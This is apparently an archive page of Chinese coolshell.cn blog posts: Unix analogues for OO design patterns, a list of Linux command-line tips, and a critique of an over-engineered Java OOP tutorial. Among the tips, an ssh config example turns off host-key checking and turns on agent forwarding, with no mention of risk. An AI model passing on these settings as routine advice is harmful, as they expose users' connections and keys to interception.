这就是抽象工厂的业务模型（或是：Business Pattern），你觉得是不是不一定非要用OO来实现这样的模式？（我们思考一下，我们会不会被先入为主了，觉得不会OO都不知道怎么实现了），不用OO，用相同格式但内容不同的配置文件是不是也能实现？在Unix下**，抽象工厂这个模式在Unix下就像是/etc/rcX.d下的那些东西，1代表命令行单用户，2，代表命令行多用户，3代表命令行多用户完整模式启动，5代表图形界面启动，0代表关机，6代表重启，你要切换的话，init <X>就行了**。

**Prototype模式**，原型模式，复制一个类的实现。这个模式在现实中的例子也有很多：传真，复印，都是这个模式。**Unix进程和Github项目的Fork就是一种。进程fork明显不是OO的模型**（参看：[关于Fork的一道面试题](https://coolshell.cn/articles/7965.html)）。用非OO的方法同样可以实现这个模式。

**Singleton模式**，单例模式。生活中，公司只有一个CEO，法律限制你只能有一个老婆，你只能有一个身份证号，一个TCP端口只能被一个进程使用，等等。软件开发方面，并不一定只有OO才能做到，你可以用一个全局变量，一个中心服务器，甚至可以使用行政手段来约束开发中不会出现多个实例。**Unix下实现单例进程的一个最常用的实践是在进程启动的时候用“(S_IRUSR | S_IWUSR | S_IRGRP | S_IROTH)”模式打开一个“锁文件”**。

**Adapter模式**，适配器模式。可以兼容欧洲美国中国的插头或插座，万能读卡器，可以播放各种格式多媒体文件的插放器，可以解析FTP/HTTP/HTTPS/等网络协议的浏览器，可以兼容各大银行的银联接口、支付宝、Paypal、VISA等银行接口，可以适配各种后端的解释器的Nginx或Apache，等等。用非OO的编程方式就是重新包装成一个标准接口。**这个模式很像Unix下的/dev下的那些文件，操作系统把系统设备适配成文件，于是你就可以使用read/write来进行读写了**。

**Bridge模式**，桥接模式。这个模式用的更多，比如一个灯具可以接各种灯泡或灯管，一个电钻可以换上不同的钻头来适应不同的材料，一辆汽车可以随时更换不同的轮胎来适应不同的路面，你的桌面可以随时更换一个图片来适应你的心情，你的单反相机可以更换不同的镜头来拍不同的照片…… 桥接模式说白了就是组件化，模块化，可以自由拼装。在OO中，其主要是通过让业务类组合一个标准接口来完成，这在非OO的程序设计中用得实在是太多了，主要是通过回调函数或是标准接口来实现。这个也是Unix设计哲学中的主要思想。**在Unix中，文件的权限使用的就是Bridge模式，标准接口是用户，用户组和其它，rwx三个模式，然后用 chmod/chown改一改，这文件就有不同的属主和属性了**。

**Decorator模式**，装饰模式。这个模式在生活中太多了，你给你的手机或电脑贴个什么，挂个什么，吃东西的时候加点什么佐料，多点肉还是多个蛋，一个Unix/Linux命令的各种参数是对这个命令的修饰，等等。**我觉得这个模式在Unix中最经常的体现就是通过管道把命令连接起来来完成一个功能**，比如：ps -elf  是列进程的，用管道 grep hchen就可以达到过滤的目的，grep的逻辑没有侵入ps中，grep 修饰了 ps，但是其组合起来完成了一个特定的功能。可见，这和OO没有什么关系。

**Facade模式，**这个模式我们每个人从会编程的时候就在无意识地用这个模式了。这个模式就是把一大堆类拼装起来，并统一往外提供提口。在现实生活中这样的例子太多了，比如：旅行社把机票，酒店，景点，导游，司机，进店打了一个包叫旅行；IBM把主机，存储，OS，J2EE，DB，网络，流程打了个包叫企业级解决方案。Unix中最典型的一个例子就是用Shell脚本组合各种命令来创造一个新的功能，这是的Shell中的各种命令通过标准I/O这个接口进行组合交互。

**Proxy模式**，代理模式。我们租个房，买个机票，打个官司，都少不了代理，人大代表代理了老百姓去行使政治权力。我们去饭馆里吃饭也是一种代理模式，因为我们只管吃就好了，洗菜做饭洗碗的工作都被Proxy帮你干了，于是你就省事多了。操作系统就是硬件的代理，CDN就是网站的代理，……使用代理你可以让事情变理更简单，也可以在代理层加入一些权限检查，这样可以让业务模块更关注业务，而把一些非业务的事情剥离出来交给代理以完成解耦。可见这个模式和OO没啥关系。**Unix下这个模式最佳体现就是Shell，它代理了系统调用并提供UI**。还有很多命令会帮你把/proc目录下的那些文件内容整理和显示出来。

**Chain of Responsibility模式**，劫匪来抢银行，保安搞不定，就交给110，110搞不定就交给武警。有什么事件发生时的响应的Escalation Path，办公中的逐级审批。这个模式用一个函数指针数组或是栈结构就可以实现了。这个思想很像编程中的异常处理机制，一层一层地往上传递异常直到异常被捕捉。**在Unix下，一个最简单的例子就是用 && 或 || 来把命令拼起来，如：cmd1 && cmd2 或 cmd3 || cmd4 ， 如果cmd1失败了，cmd2就不会执行，如果cmd3失败了，cmd4才会执行。**如： cd lib && rm -rf .o 或 ping -c1 coolshell.cn && ssh haoel@coolshell.cn

**Command模式**，这恐怕是软件里最多的模式了，比如：编译器里的Undo/Redo，宏录制。还有数据库的事务处理，线程池，设置向导，包括程序并行执行的指令集等等。这个模式主要是把一个对象的行为封装成一个一个的有相同接口的command，然后交给一个统一的命令执行器执行或管理这些命令。**这个模式和我们的Unix/Linux机器启动时在/etc/init.d下的那些S和K开头的脚本很像，把各种daemon的启动和退出行为封装成一个脚本其支持reload/start/stop/status这样的命令，然后把他们按一定的规范做符号链接到/etc/init.d目录下，这样操作系统就会接管这些daemon的启动和退出**。

**Observer模式**，观察者模式，这个模式也叫pub-sub模式，很像我们用手机订阅手机报，微博的follow的信息流也是这样的一个模式。MVC中的C会sub V中的事件，用非OO的方式其实也是一个回调函数的事。在很多异步系统中，你需要知道最终的调用有没有成功，比如说调用支付宝的支付接口，你需要向支付宝注册一个回调的接口，以便支付宝回调你。**Linux下的一些系统调用如epoll/aio/inotify/signal都是这种思路**。

**Strategy 模式**，策略模式，这个模式和Bridge模式很像，只不过Bridge是结构模式，其主要是用于对象的构造；而Strategy是行为模式，主要是用于对象的行为。策略模式很像浏览器里的各种插件，只要你装了某个插件，你就有某个功能。你可以安装多个插件来让你的浏览器有更多的功能（书本上的这个模式是你只能选用一个算法，当然，我们不用那么教条）。**就像《[你可能不知道的Shell](https://coolshell.cn/articles/8619.html)》中的那个设置设置$EDITOR变量后可以按ctrl+x e启动编译器，或是用set -o vi或set -o emacs 来让自己的shell像vi或 emacs 一样，或是像find -exec或xargs一样的拼装命令**。

**Bridge 和 Strategy是OO设计模式里的“Favor Composition Over Inheritance” 的典范，其实现了接口与实现分离的**。Unix中的Shell就是一种，你可随意地更换不同的Shell。还有Emacs中的LISP驱动C，C实现了引擎，交给LISP实现逻辑。把程序分为前端和后端，通过socket专用应用协议进行通讯，前端实现策略，后端实现机制。再看看makefile把编译器和源代码的解耦，命令行输出这个接口可以把一个复杂的功能解耦并抽像成各种各样小而美的小功能命令，等等这样的例子，你会发现，还有大量的编程框架都会多少采用这样的思想，可以让你的软件像更换汽车零件一样方便。我在用[Unix的设计思想来应对变更的需求](https://coolshell.cn/articles/7236.html)中说过灯具厂，灯泡厂，和开关厂的例子。

#### 后记

因为写作仓促，上面的那些东西，可能会你让你觉得有些牵强，那么抱歉了，你可以帮我看看在生活中和 Unix里有没有更帅的例子。

不过，我们会发现上面OO搞出来的那么多模式在Unix下看来好像没有那么复杂，而且Unix下看起来并没有那么多模式，而且Unix中的设计模式无非就是这么几个关键词：**单一，简洁，模块，拼装**。我们再来看看OO设计的两大准则：**1）钟情于组合而不是继承，2）依赖于接口而不是实现**。还有S.O.L.I.D原则也一样（如果你仔细观察，你会发现SOLID原则在Unix下也是完美地体现）。你看，Unix和OO设计模式是不是完美的统一吗？

我有种强烈的感觉——**Unix对这些所谓的OO的设计模式实现得更好**。因为Unix就一条设计模式！再次推荐《*[The Art of Unix Programming](http://book.douban.com/subject/5387401/)*》


#### 餐后甜点

我上面提到了《*[The Art of Unix Programming](http://book.douban.com/subject/5387401/)*》，所以我有必要再谈谈这本书中我中毒最深的一章《模块性：保持清晰和简洁》中所谈到的胶合层。

胶合层这一节中说了，我们开发软件一般要么Top-Down，要么Bottom-Up，这两种方法都有好有不好。顶层一般是应用逻辑层，底层一般是原语层（我理解为技术沉淀层，或是技术基础层）。自顶向下的开发，你可能会因为开发到底层后发现底层可沉淀的东西越来越不爽（因为被可能被很多业务逻辑所侵入），如果自底向上的开发，你可能越到上层你越发现很多你下面干的基础上工作有很多用不上（比如干多了）。所以，最好的方式是同时进行，一会顶层，一会底层，来来回回的开发——说白了就是在开发中不断的重构，边开发边理解边沉淀。

无论怎么样，你会发现需要一层胶合层来胶合业务逻辑层和底层原语层（软件开发中的业务层和技术层的胶合），Unix的设计哲学认为，这层胶合层应该尽量地薄，胶合层越多，我们就只能在其中苦苦挣扎。

其实，**胶合层原则就是分离原则上更为上层地体现，策略（业务逻辑）和机制（基础技术或原语）的清楚的分离。你可以看到，OO和Unix都是在做这样的分离。但是需要注意到的时，OO用抽象接口来做这个分离——很多OO的模式中，抽象层太多了，导致胶合层太过于复杂了，也就是说，OO鼓励了——“厚重地胶合和复杂层次”，反而增加了程序的复杂度（这种情况在恶化中）。而Unix采用的是薄的胶合层，薄地相当的优雅**。（通过这段话的描述，我相信你会明白了《[如此理解面向对象编程](https://coolshell.cn/articles/8745.html)》中的个例子——为什么用OO来实现会比用非OO来实现更为地恶心——那就是因为OO胶合层太复杂了）

**OO的最大的问题就——接口复杂度太高，胶合层太多！**（注：Unix编程艺术这本书里说了软件有三个复杂度：代码量、接口、实现，这三个东西构成了我们的软件复杂度）

#### 再送一个果盘

大家一定记得《[SteveY对Amazon和Google平台的长篇大论](https://coolshell.cn/articles/5701.html)》中Amazon中那个令人非常向往的SOA式的架构。因为以前在Amazon，有些话不好说。现在可以说了，我在Amazon里，我个人对这个服务化的架构相当的不待见，太复杂，复杂以乱七八糟，方向是好的，想法也是好的，但是这东西和OO一样，造成大量的接口复杂度，今天的Amazon，完全没人知道各个服务是怎么个调用的，一团乱麻（其内部并不像你看到的AWS那么的美妙。注：AWS是非常不错的，是相当好的设计）。

**那么我们怎么来解决SOA的接口复杂度问题？其实，Unix早就给出了答案——数据驱动编程**（详见：《Unix编程艺术》的第9.1章），在我离开Amazon的时候，美国总部的Principle SDE们在吐槽今天Amazon的SOA架构，更好的架构应该是数据驱动式的。（今天还在Amazon的同学可以上内网boardcast上看看相关的Principle Talk视频）

（瞎扯一句：这本来是我想在2012年杭州QCon上的分享的一个主题，无奈当时被大会组织者给拒了，所以只好讲了一个《建一支小团队》，今天有多人还是不能明白甚至反感我的那个《小团队》的演讲，但是我相信那是必然的趋势，就像十年前大家在说“程序员只能干到30岁”时，当时的我我却毫不犹豫地相信十年后，30岁以上的有经验的老程序员一定会成为各个公司角逐和竟争的红人）

# 应该知道的LINUX技巧

#####  [2013年01月09日 ](https://coolshell.cn/articles/8883.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [192 条评论](https://coolshell.cn/articles/8883.html#comments) 296,570 人阅读

这篇文章来源于Quroa的一个问答《[What are some time-saving tips that every Linux user should know?](https://www.quora.com/Linux/What-are-some-time-saving-tips-that-every-Linux-user-should-know#)》—— Linux用户有哪些应该知道的提高效率的技巧。我觉得挺好的，总结得比较好，把其转过来，并加了一些自己的理解。 首先，我想告诉大家，**在Unix/Linux下，最有效率技巧的不是操作图形界面，而是命令行操作，因为命令行意味着自动化**。如果你看过《[你可能不知道的Shell](https://coolshell.cn/articles/8619.html)》以及《[28个Unix/Linux的命令行神器](https://coolshell.cn/articles/7829.html)》你就会知道Linux有多强大，这个强大完全来自于命令行，于是，就算你不知道怎么去[做一个环保主义的程序员](https://coolshell.cn/articles/7186.html)，至少他们可以让你少熬点夜，从而有利于你的身体健康和性生活。下面是一个有点长的列表，正如作者所说，你并不需要知道所有的这些东西，但是如果你还在很沉重地在使用Linux的话，这些东西都值得你看一看。 （注：如果你想知道下面涉及到的命令的更多的用法，你一定要man一点。对于一些命令，你可以需要先yum或apt-get来安装一下，如果有什么问题，别忘了Google。如果你要Baidu的话，我仅代表这个地球上所有的生物包括微生物甚至细菌病毒和小强BS你到宇宙毁灭）

#### 基础

- **学习 [Bash](https://www.quora.com/Bash-shell)** 。你可以man bash来看看bash的东西，并不复杂也并不长。你用别的shell也行，但是bash是很强大的并且也是系统默认的。（学习zsh或tsch只会让你在很多情况下受到限制）

- **学习 vim** 。在Linux下，基本没有什么可与之竞争的编~~译~~辑器（就算你是一个Emacs或Eclipse的重度用户）。你可以看看《[简明vim攻略](https://coolshell.cn/articles/5426.html)》和 《[Vim的冒险游戏](https://coolshell.cn/articles/7166.html)》以及《[给程序员的Vim速查卡](https://coolshell.cn/articles/5479.html)》还有《[把Vim变成一个编程的IDE](https://coolshell.cn/articles/894.html)》等等。

- **了解 ssh**。明白不需要口令的用户认证（通过ssh-agent, ssh-add），学会用ssh翻墙，用scp而不是ftp传文件，等等。你知道吗？scp 远端的时候，你可以按tab键来查看远端的目录和文件（当然，需要无口令的用户认证），这都是bash的功劳。


- **熟悉bash的作业管理**，如： &, Ctrl-Z, Ctrl-C, jobs, fg, bg, kill, 等等。当然，你也要知道Ctrl+\（SIGQUIT）和Ctrl+C （SIGINT）的区别。

- **简单的文件管理** ： ls 和 ls -l (你最好知道 “ls -l” 的每一列的意思), less, head, tail 和 tail -f, ln 和 ln -s (你知道明白hard link和soft link的不同和优缺点), chown, chmod, du (如果你想看看磁盘的大小 du -sk *), df, mount。当然，原作者忘了find命令。

- **基础的网络管理**： ip 或 ifconfig, dig。当然，原作者还忘了如netstat, ping, traceroute, 等

- **理解正则表达式**，还有grep/egrep的各种选项。比如： -o, -A, 和 -B 这些选项是很值得了解的。

- **学习使用 apt-get 和 yum 来查找和安装软件**（前者的经典分发包是Ubuntu，后者的经典分发包是Redhat），我还建议你试着从源码编译安装软件。

**日常**

- 在 bash 里，使用 Ctrl-R 而不是上下光标键来查找历史命令。

- 在 bash里，使用 Ctrl-W 来删除最后一个单词，使用 Ctrl-U 来删除一行。请man bash后查找Readline Key Bindings一节来看看bash的默认热键，比如：Alt-. 把上一次命令的最后一个参数打出来，而Alt-* 则列出你可以输入的命令。

- 回到上一次的工作目录： cd –  （回到home是 cd ~）

- 使用 xargs。这是一个很强大的命令。你可以使用-L来限定有多少个命令，也可以用-P来指定并行的进程数。如果你不知道你的命令会变成什么样，你可以使用xargs echo来看看会是什么样。当然， -I{} 也很好用。示例：

> ```
> find . -name \*.py | xargs grep some_function
> 
> cat hosts | xargs -I{} ssh root@{} hostname
> ```

- pstree -p 可以帮你显示进程树。（读过我的那篇《[一个fork的面试题](https://coolshell.cn/articles/7965.html)》的人应该都不陌生）

- 使用 pgrep 和 pkill 来找到或是kill 某个名字的进程。 (-f 选项很有用).

- 了解可以发给进程的信号。例如：要挂起一个进程，使用 kill -STOP [pid]. 使用 man 7 signal 来查看各种信号，使用kill -l 来查看数字和信号的对应表

- 使用 nohup 或  disown 如果你要让某个进程运行在后台。

- 使用netstat -lntp来看看有侦听在网络某端口的进程。当然，也可以使用 lsof。

- 在bash的脚本中，你可以使用 set -x 来debug输出。使用 set -e 来当有错误发生的时候abort执行。考虑使用 set -o pipefail 来限制错误。还可以使用trap来截获信号（如截获ctrl+c）。

- 在bash 脚本中，subshells (写在圆括号里的) 是一个很方便的方式来组合一些命令。一个常用的例子是临时地到另一个目录中，例如：

> ```
> # do something in current dir
> (cd /some/other/dir; other-command)
> # continue in original dir
> ```

- 在 bash 中，注意那里有很多的变量展开。如：检查一个变量是否存在: ${name:?error message}。如果一个bash的脚本需要一个参数，也许就是这样一个表达式 input_file=${1:?usage: $0 input_file}。一个计算表达式： i=$(( (i + 1) % 5 ))。一个序列： {1..10}。 截断一个字符串： ${var%suffix} 和 ${var#prefix}。 示例： if var=foo.pdf, then echo ${var%.pdf}.txt prints “foo.txt”.

- 通过 <(some command) 可以把某命令当成一个文件。示例：比较一个本地文件和远程文件 /etc/hosts： diff /etc/hosts <(ssh somehost cat /etc/hosts)

- 了解什么叫 “[here documents](https://zh.wikipedia.org/wiki/Here文档)” ，就是诸如 cat <<EOF 这样的东西。

- 在 bash中，使用重定向到标准输出和标准错误。如： some-command >logfile 2>&1。另外，要确认某命令没有把某个打开了的文件句柄重定向给标准输入，最佳实践是加上 “</dev/null”，把/dev/null重定向到标准输入。

- 使用 man ascii 来查看 ASCII 表。

- 在远端的 ssh 会话里，使用 screen 或 dtach 来保存你的会话。（参看《[28个Unix/Linux的命令行神器](https://coolshell.cn/articles/7829.html)》）

- 要来debug Web，试试curl 和 curl -I 或是 wget 。我觉得debug Web的利器是firebug，curl和wget是用来抓网页的，呵呵。

- 把 HTML 转成文本： lynx -dump -stdin

- 如果你要处理XML，使用 xmlstarlet

- 对于 Amazon S3， s3cmd 是一个很方便的命令（还有点不成熟）

- 在 ssh中，知道怎么来使用ssh隧道。通过 -L or -D (还有-R) ，翻墙神器。

- 你还可以对你的ssh 做点优化。比如，.ssh/config 包含着一些配置：避免链接被丢弃，链接新的host时不需要确认，转发认证，以前使用压缩（如果你要使用scp传文件）：

> ```
> TCPKeepAlive=yes
> ServerAliveInterval=15
> ServerAliveCountMax=6
> StrictHostKeyChecking=no
> Compression=yes
> ForwardAgent=yes
> ```

- 如果你有输了个命令行，但是你改变注意了，但你又不想删除它，因为你要在历史命令中找到它，但你也不想执行它。那么，你可以按下 Alt-# ，于是这个命令关就被加了一个#字符，于是就被注释掉了。

**数据处理** 

- 了解 sort 和 uniq 命令 (包括 uniq 的 -u 和 -d 选项).

- 了解用 cut, paste, 和 join 命令来操作文本文件。很多人忘了在cut前使用join。

- 如果你知道怎么用sort/uniq来做集合交集、并集、差集能很大地促进你的工作效率。假设有两个文本文件a和b已解被 uniq了，那么，用sort/uniq会是最快的方式，无论这两个文件有多大（sort不会被内存所限，你甚至可以使用-T选项，如果你的/tmp目录很小）

> ```
> cat a b | sort | uniq > c   # c is a union b 并集
> 
> cat a b | sort | uniq -d > c   # c is a intersect b 交集
> 
> cat a b b | sort | uniq -u > c   # c is set difference a - b 差集
> ```

- 了解和字符集相关的命令行工具，包括排序和性能。很多的Linux安装程序都会设置LANG 或是其它和字符集相关的环境变量。这些东西可能会让一些命令（如：sort）的执行性能慢N多倍（注：就算是你用UTF-8编码文本文件，你也可以很安全地使用ASCII来对其排序）。如果你想Disable那个i18n 并使用传统的基于byte的排序方法，那就设置export LC_ALL=C （实际上，你可以把其放在 .bashrc）。如果这设置这个变量，你的sort命令很有可能会是错的。

- 了解 awk 和 sed，并用他们来做一些简单的数据修改操作。例如：求第三列的数字之和： awk ‘{ x += $3 } END { print x }’。这可能会比Python快3倍，并比Python的代码少三倍。

- 使用 shuf 来打乱一个文件中的行或是选择文件中一个随机的行。

- 了解sort命令的选项。了解key是什么（-t和-k）。具体说来，你可以使用-k1,1来对第一列排序，-k1来对全行排序。

- Stable sort (sort -s) 会很有用。例如：如果你要想对两例排序，先是以第二列，然后再以第一列，那么你可以这样： sort -k1,1 | sort -s -k2,2

- 我们知道，在bash命令行下，Tab键是用来做目录文件自动完成的事的。但是如果你想输入一个Tab字符（比如：你想在sort -t选项后输入<tab>字符），你可以先按Ctrl-V，然后再按Tab键，就可以输入<tab>字符了。当然，你也可以使用$’\t’。

- 如果你想查看二进制文件，你可以使用hd命令（在CentOS下是hexdump命令），如果你想编译二进制文件，你可以使用bvi命令（http://bvi.sourceforge.net/ 墙）

- 另外，对于二进制文件，你可以使用strings（配合grep等）来查看二进制中的文本。

- 对于文本文件转码，你可以试一下 iconv。或是试试更强的 uconv 命令（这个命令支持更高级的Unicode编码）

- 如果你要分隔一个大文件，你可以使用split命令（split by size）和csplit命令（split by a pattern）。

**系统调试**

- 如果你想知道磁盘、CPU、或网络状态，你可以使用 iostat, netstat, top (或更好的 htop), 还有 dstat 命令。你可以很快地知道你的系统发生了什么事。关于这方面的命令，还有iftop, iotop等（参看《[28个Unix/Linux的命令行神器](https://coolshell.cn/articles/7829.html)》）

- 要了解内存的状态，你可以使用free和vmstat命令。具体来说，你需要注意 “cached” 的值，这个值是Linux内核占用的内存。还有free的值。

- Java 系统监控有一个小的技巧是，你可以使用kill -3 <pid> 发一个SIGQUIT的信号给JVM，可以把堆栈信息（包括垃圾回收的信息）dump到stderr/logs。

- 使用 mtr 会比使用 traceroute 要更容易定位一个网络问题。

- 如果你要找到哪个socket或进程在使用网络带宽，你可以使用 iftop 或 nethogs。

- Apache的一个叫 ab 的工具是一个很有用的，用quick-and-dirty的方式来测试网站服务器的性能负载的工作。如果你需要更为复杂的测试，你可以试试 siege。

- 如果你要抓网络包的话，试试 wireshark 或 tshark。

- 了解 strace 和 ltrace。这两个命令可以让你查看进程的系统调用，这有助于你分析进程的hang在哪了，怎么crash和failed的。你还可以用其来做性能profile，使用 -c 选项，你可以使用-p选项来attach上任意一个进程。

- 了解用ldd命令来检查相关的动态链接库。注意：[ldd的安全问题](https://coolshell.cn/articles/1626.html)

- 使用gdb来调试一个正在运行的进程或分析core dump文件。参看我写的《[GDB中应该知道的几个调试方法](https://coolshell.cn/articles/3643.html)》

- 学会到 /proc 目录中查看信息。这是一个Linux内核运行时记录的整个操作系统的运行统计和信息，比如： /proc/cpuinfo, /proc/xxx/cwd, /proc/xxx/exe, /proc/xxx/fd/, /proc/xxx/smaps.

- 如果你调试某个东西为什么出错时，sar命令会有用。它可以让你看看 CPU, 内存, 网络, 等的统计信息。

- 使用 dmesg 来查看一些硬件或驱动程序的信息或问题。

作者最后加了一个免责声明：Disclaimer: Just because you *can* do something in bash, doesn’t necessarily mean you should. ;) （全文完）

# 如此理解面向对象编程

#####  [2012年12月13日 ](https://coolshell.cn/articles/8745.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [185 条评论](https://coolshell.cn/articles/8745.html#comments) 157,711 人阅读

从Rob Pike 的 Google+上的一个推看到了一篇叫《[Understanding Object Oriented Programming](http://www.csis.pace.edu/~bergin/patterns/ppoop.html)》的文章，我先把这篇文章简述一下，然后再说说老牌黑客Rob Pike的评论。

先看这篇教程是怎么来讲述OOP的。它先给了下面这个问题，这个问题需要输出一段关于操作系统的文字：假设Unix很不错，Windows很差。

这个把下面这段代码描述成是**Hacker Solution**。（这帮人觉得下面这叫黑客？我估计这帮人真是没看过C语言的代码）

```
public class PrintOS
{
	public static void main(final String[] args)
	{
		String osName = System.getProperty("os.name") ;
		if (osName.equals("SunOS") || osName.equals("Linux"))
		{
			System.out.println("This is a UNIX box and therefore good.") ;
		}
		else if (osName.equals("Windows NT") || osName.equals("Windows 95"))
		{
			System.out.println("This is a Windows box and therefore bad.") ;
		}
		else
		{
			System.out.println("This is not a box.") ;
		}
	}
}
```

然后开始用面向对象的编程方式一步一步地进化这个代码。

先是以过程化的思路来重构之。


目录


[过程化的方案](https://coolshell.cn/articles/8745.html#过程化的方案)[幼稚的面向对象编程](https://coolshell.cn/articles/8745.html#幼稚的面向对象编程)[OO大师的方案](https://coolshell.cn/articles/8745.html#OO大师的方案)[Rob Pike的评论](https://coolshell.cn/articles/8745.html#Rob_Pike的评论)[我的理解](https://coolshell.cn/articles/8745.html#我的理解)

#### 过程化的方案

```
public class PrintOS
{
	private static String unixBox()
	{
		return "This is a UNIX box and therefore good." ;
	}
	private static String windowsBox()
  	{
		return "This is a Windows box and therefore bad." ;
	}
	private static String defaultBox()
	{
		return "This is not a box." ;
	}
	private static String getTheString(final String osName)
	{
		if (osName.equals("SunOS") || osName.equals("Linux"))
		{
			return unixBox() ;
		}
		else if (osName.equals("Windows NT") ||osName.equals("Windows 95"))
		{
			return windowsBox() ;
		}
		else
		{
			return defaultBox() ;
		}
  	}
	public static void main(final String[] args)
	{
		System.out.println(getTheString(System.getProperty("os.name"))) ;
	}
}
```

然后是一个幼稚的面向对象的思路。

#### 幼稚的面向对象编程

```
public class PrintOS
{
	public static void main(final String[] args)
  	{
		System.out.println(OSDiscriminator.getBoxSpecifier().getStatement()) ;
 	}
}
```

 

```
public class OSDiscriminator // Factory Pattern
{
	private static BoxSpecifier theBoxSpecifier = null ;
  	public static BoxSpecifier getBoxSpecifier()
	{
		if (theBoxSpecifier == null)
		{
			String osName = System.getProperty("os.name") ;
 			if (osName.equals("SunOS") || osName.equals("Linux"))
 			{
				theBoxSpecifier = new UNIXBox() ;
			}
			else if (osName.equals("Windows NT") || osName.equals("Windows 95"))
			{
				theBoxSpecifier = new WindowsBox() ;
			}
			else
			{
				theBoxSpecifier = new DefaultBox () ;
			}
		}
		return theBoxSpecifier ;
	}
}
```

 

```
public interface BoxSpecifier
{
	String getStatement() ;
}
```

 

```
public class DefaultBox implements BoxSpecifier
{
	public String getStatement()
	{
		return "This is not a box." ;
  	}
}
```

 

```
public class UNIXBox implements BoxSpecifier
{
	public String getStatement()
	{
		return "This is a UNIX box and therefore good." ;
  	}
}
```

 

```
public class WindowsBox implements BoxSpecifier
{
  	public String getStatement()
	{
		return "This is a Windows box and therefore bad." ;
	}
}
```

他们觉得上面这段代码没有消除if语句，他们说这叫代码的“logic bottleneck”（逻辑瓶颈），因为如果你要增加一个操作系统的判断的话，你不但要加个类，还要改那段if-else的语句。

所以，他们整出一个叫Sophisticated的面向对象的解决方案。

#### OO大师的方案

注意其中的Design Pattern

```
public class PrintOS
{
  	public static void main(final String[] args)
  	{
		System.out.println(OSDiscriminator.getBoxSpecifier().getStatement()) ;
  	}
}
public class OSDiscriminator // Factory Pattern
{
  	private static java.util.HashMap storage = new java.util.HashMap() ;

 	public static BoxSpecifier getBoxSpecifier()
	{
		BoxSpecifier value = (BoxSpecifier)storage.get(System.getProperty("os.name")) ;
		if (value == null)
			return DefaultBox.value ;
		return value ;
 	}
  	public static void register(final String key, final BoxSpecifier value)
  	{
		storage.put(key, value) ; // Should guard against null keys, actually.
  	}
  	static
  	{
		WindowsBox.register() ;
  		UNIXBox.register() ;
  		MacBox.register() ;
  	}
}
public interface BoxSpecifier
{
  	String getStatement() ;
}
public class DefaultBox implements BoxSpecifier // Singleton Pattern
{
	public static final DefaultBox value = new DefaultBox () ;
	private DefaultBox() { }
	public String getStatement()
	{
		return "This is not a box." ;
	}
}
public class UNIXBox implements BoxSpecifier // Singleton Pattern
{
 	public static final UNIXBox value = new UNIXBox() ;
	private UNIXBox() { }
	public  String getStatement()
   	{
		return "This is a UNIX box and therefore good." ;
 	}
  	public static final void register()
  	{
		OSDiscriminator.register("SunOS", value) ;
  		OSDiscriminator.register("Linux", value) ;
 	}
}
public class WindowsBox implements BoxSpecifier  // Singleton Pattern
{
	public  static final WindowsBox value = new WindowsBox() ;
	private WindowsBox() { }
	public String getStatement()
	{
		return "This is a Windows box and therefore bad." ;
  	}
  	public static final void register()
  	{
		OSDiscriminator.register("Windows NT", value) ;
  		OSDiscriminator.register("Windows 95", value) ;
	}
}
public class MacBox implements BoxSpecifier // Singleton Pattern
{
 	public static final MacBox value = new MacBox() ;
	private MacBox() { }
	public  String getStatement()
   	{
		return "This is a Macintosh box and therefore far superior." ;
 	}
  	public static final void register()
  	{
		OSDiscriminator.register("Mac OS", value) ;
 	}
}
```

作者还非常的意地说，他加了一个“Mac OS”的东西。**老实说，当我看到最后这段OO大师搞出来的代码，我快要吐了**。我瞬间想到了两件事：一个是以前酷壳上的《[面向对象是个骗局](https://coolshell.cn/articles/3036.html)》和 《[各种流行的编程方式](https://coolshell.cn/articles/2058.html)》中说的“设计模式驱动编程”，另一个我想到了那些被敏捷洗过脑的程序员和咨询师，也是这种德行。

于是我去看了一下第一作者[Joseph Bergin的主页](http://csis.pace.edu/~bergin/)，这个Ph.D是果然刚刚完成了一本关于敏捷和模式的书。

#### Rob Pike的评论

（Rob Pike是当年在Bell lab里和Ken一起搞Unix的主儿，后来和Ken开发了UTF-8，现在还和Ken一起搞Go语言。注：不要以为Ken和Dennis是基友，其实他们才是真正的老基友！）

Rob Pike在他的[Google+的这贴](https://plus.google.com/101960720994009339267/posts/hoJdanihKwb)里评论到这篇文章——

他并不确认这篇文章是不是搞笑？但是他觉得这些个写这篇文章是很认真的。他说他要评论这篇文章是因为他们是一名Hacker，至少这个词出现在这篇文章的术语中。

他说，这个程序根本就不需要什么Object，只需要一张小小的配置表格，里面配置了对应的操作系统和你想输出的文本。这不就完了。这么简单的设计，非常容易地扩展，他们那个所谓的Hack Solution完全就是笨拙的代码。后面那些所谓的代码进化相当疯狂和愚蠢的，这个完全误导了对编程的认知。

然后，他还说，**他觉得这些OO的狂热份子非常害怕数据，他们喜欢用多层的类的关系来完成一个本来只需要检索三行数据表的工作**。他说他曾经听说有人在他的工作种用各种OO的东西来替换While循环。（我听说中国Thoughtworks那帮搞敏捷的人的确喜欢用Object来替换所有的if-else语句，他们甚至还喜欢把函数的行数限制在10行以内）

他还给了一个链接http://prog21.dadgum.com/156.html，你可以读一读。最后他说，**OOP的本质就是——对数据和与之关联的行为进行编程**。便就算是这样也不完全对，因为：

**Sometimes data is just data and functions are just functions.**

#### 我的理解

我觉得，这篇文章的例子举得太差了，差得感觉就像是OO的高级黑。面向对象编程注重的是：**1）数据和其行为的打包封装，2）程序的接口和实现的解耦**。你那怕，举一个多个开关和多个电器的例子，不然就像STL中，一个排序算法对多个不同容器的例子，都比这个例子要好得多得多。老实说，Java SDK里太多这样的东西了。

我以前给一些公司讲一些设计模式的培训课，我一再提到，**那23个经典的设计模式和OO半毛钱关系没有**，只不过人家用OO来实现罢了。**设计模式就三个准则：1）中意于组合而不是继承，2）依赖于接口而不是实现，3）高内聚，低耦合。你看，这完全就是Unix的设计准则**。

（全文完）

# 程序算法与人生选择

#####  [2012年12月28日 ](https://coolshell.cn/articles/8790.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [220 条评论](https://coolshell.cn/articles/8790.html#comments) 167,777 人阅读

每年一到要找工作的时候，我就能收到很多人给我发来的邮件，总是问我怎么选择他们的offer，去腾讯还是去豆瓣，去外企还是去国内的企业，去创业还是去考研，来北京还是回老家，该不该去创新工场？该不该去thoughtworks？……等等，等等。今年从7月份到现在，我收到并回复了60多封这样的邮件。我更多帮他们整理思路，帮他们明白自己最想要的是什么。（注：我以后不再回复类似的邮件了）。

